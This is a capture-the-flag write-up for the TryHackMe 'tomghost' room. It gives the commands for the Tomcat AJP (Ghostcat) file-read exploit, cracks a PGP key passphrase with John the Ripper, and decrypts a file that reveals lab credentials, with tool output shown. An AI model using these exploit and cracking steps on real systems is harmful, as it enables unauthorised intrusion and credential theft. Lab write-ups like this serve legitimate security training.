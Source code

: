 # [tomghost writeup](https://www.tryhackme.com/room/tomghost)

### Searchsploit
`searchsploit ajp`

`python 48143.py -f /WEB-INF/web.xml $ip` 

Or with specific port `python 48143.py -p $port -f /WEB-INF/web.xml $ip`

Or go with all default options simply `python 48143.py $ip` 

In this box, it uses the default port 8009 already.

### Or AJPy
##### Install submodules first
`git clone --recurse-submodules git@github.com:hypn0s/AJPy.git`
##### Now run it
`python tomcat.py read_file --webapp=web /WEB-INF/web.xml $ip`

### Cracking PGP symmetrically encrypted files with JtR 
https://www.openwall.com/lists/john-users/2015/11/17/1

```
❯ john hash --wordlist=/opt/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thisIsThePhaseForTheOtherFile        (tryhackme)
1g 0:00:00:00 DONE (2021-05-30 21:30) 25.00g/s 26800p/s 26800c/s 26800C/s theresa..thisIsThePhaseForTheOtherFile
Use the "--show" option to display all of the cracked passwords reliably
Session completed
❯ john hash --show
tryhackme:thisIsThePhaseForTheOtherFile:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left
```

### Use the phase to finish the horizontal privilege escalation
```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:plainTextPassword
```


### Thoughts
Run the exploit is not hard but how to find the correct command parameters for that
```
root@ubuntu:/root# find / -name "web.xml" 2>/dev/null
/opt/tomcat/conf/web.xml
/opt/tomcat/webapps/host-manager/WEB-INF/web.xml
/opt/tomcat/webapps/ROOT/WEB-INF/web.xml
/opt/tomcat/webapps/manager/WEB-INF/web.xml
/opt/tomcat/webapps/docs/appdev/sample/web/WEB-INF/web.xml
/opt/tomcat/webapps/docs/WEB-INF/web.xml
/opt/tomcat/webapps/examples/WEB-INF/web.xml
```

Available parameters
```
--webapp=host-manager
--webapp=ROOT
--webapp=manager
--webapp=web
--webapp=docs
--webapp=examples
```
